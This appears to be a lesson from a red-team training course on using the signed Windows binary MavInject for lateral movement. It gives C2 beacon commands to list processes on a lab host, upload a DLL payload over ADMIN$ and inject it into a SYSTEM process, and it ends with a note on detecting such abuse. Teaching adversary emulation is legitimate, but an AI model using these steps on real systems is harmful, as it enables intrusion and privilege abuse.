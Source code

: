 # LOLBAS

Using a [LOLBAS](https://lolbas-project.github.io/) (Living Off The Land Binaries and Scripts) to facilitate lateral movement is popular amongst some threat actors.  These are binaries, scripts, or libraries that are native to Windows or can be downloaded from Microsoft; are signed with Microsoft's official code-signing certificate; and have functionality useful to a threat, such as arbitrary code execution.

### MavInject <a href="#el_1746355259367_385" id="el_1746355259367_385"></a>

MavInject is a signed Microsoft executable that provides functionality for App-V to inject libraries into other process.  It lives in the System32/SysWOW64 directories on default Windows installations.



<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/7967daf5279c010c8a881aba2daea1a8.png" alt=""><figcaption></figcaption></figure>

This utility can be abused to inject any arbitrary DLL into a target process, using the syntax `mavinject.exe [PID] /INJECTRUNNING [DLL PATH]`.  First, use `remote-exec` to list the running processes on the remote target.

```batch
beacon> remote-exec winrm lon-ws-1 Get-Process -IncludeUserName | select Id, ProcessName, UserName | sort -Property Id

Id             : 1992
ProcessName    : spoolsv
UserName       : NT AUTHORITY\SYSTEM

Id             : 2280
ProcessName    : CompatTelRunner
UserName       : NT AUTHORITY\SYSTEM

Id             : 2588
ProcessName    : AggregatorHost
UserName       : NT AUTHORITY\SYSTEM

[...snip...]
```

Then, upload a DLL payload to the target and use MavInject to inject it into your chosen process.

```batch
beacon> cd \\lon-ws-1\ADMIN$\System32
beacon> upload C:\Payloads\smb_x64.dll

beacon> remote-exec wmi lon-ws-1 mavinject.exe 1992 /INJECTRUNNING C:\Windows\System32\smb_x64.dll
Started process 1608 on lon-ws-1

beacon> link lon-ws-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
[+] established link to child beacon: 10.10.120.10
```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/1cff67eaa35f7d335e94735bc6d7c860.png" alt="" width="100%"><figcaption></figcaption></figure>

### OPSEC <a href="#el_1746438402174_368" id="el_1746438402174_368"></a>

<mark style="color:red;">**Most mature organisations have a good handle on LOLBAS abuses.  They can be blocked outright using application control technologies such as AppLocker and WDAC, or their use simply logged via process creation events generated by Sysmon or other monitoring tools.  For those reasons, the use of LOLBAS is generally more application to adversary emulation rather than simulation.**</mark>
